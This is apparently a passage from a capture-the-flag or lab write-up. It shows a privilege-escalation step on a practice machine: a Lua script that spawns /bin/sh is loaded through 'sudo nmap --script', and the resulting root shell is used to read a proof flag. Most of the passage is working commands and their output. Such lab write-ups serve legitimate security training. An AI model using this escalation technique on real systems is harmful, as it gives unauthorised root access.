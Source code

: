 I can run nmap as root. The simplest way to get a shell with nmap is to run the `--interactive` flag. However, this doesn't seem to be available. Instead, I'll use the alternative and start nmap with a script that launches a shell session, rooting the box:

```bash
mahakal@ubuntu:/home/mahakal$ TF=$(mktemp)
mahakal@ubuntu:/home/mahakal$ echo 'os.execute("/bin/sh")' > $TF
mahakal@ubuntu:/home/mahakal$ sudo nmap --script=$TF

Starting Nmap 7.60 ( https://nmap.org ) at 2023-03-13 14:41 PDT
NSE: Warning: Loading '/tmp/tmp.7Hu9tpyza8' -- the recommended file extension is '.nse'.
# cd /root
# ls
proof.txt  root.txt
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# hostname -I
192.168.196.80
# cat proof.txt
07b2433a3664a68f5d1fbd6230643583
```

